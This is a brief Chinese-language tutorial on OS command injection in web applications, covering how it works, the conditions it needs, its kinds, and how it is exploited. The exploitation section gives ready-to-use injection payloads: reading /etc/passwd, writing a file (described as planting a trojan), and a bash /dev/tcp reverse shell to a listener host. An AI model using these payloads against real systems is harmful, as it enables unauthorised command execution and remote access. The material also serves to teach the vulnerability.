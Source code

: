 ### 一、漏洞原理
利用web服务的过滤不严谨，传递恶意payload从而达到直接调用服务器命令行而达成攻击的手段
### 二、存在条件

1. web服务有使用直接调用系统命令行的函数
2. 对参数过滤不严谨
3. 可以实现命令行的拼接
### 三、注入分类

1. web服务过滤不严
2. 系统的漏洞
3. 第三方组件的漏洞
### 四、漏洞利用

1. 获取敏感信息
> 127.0.0.1|cat /etc/passwd #获取用户和密码，根据用户权限可以做其他操作


2. 传入木马脚本
> 127.0.0.1;touch 1.html;echo "hhh">1.html


3. 反弹shell
> 127.0.0.1|bash -i >& /dev/tcp/192.168.11.132/5555 0>&1 #输入命令行跟192.168.11.132主机的5555端口建立连接，同时在192.168.11.132主机监听5555端口



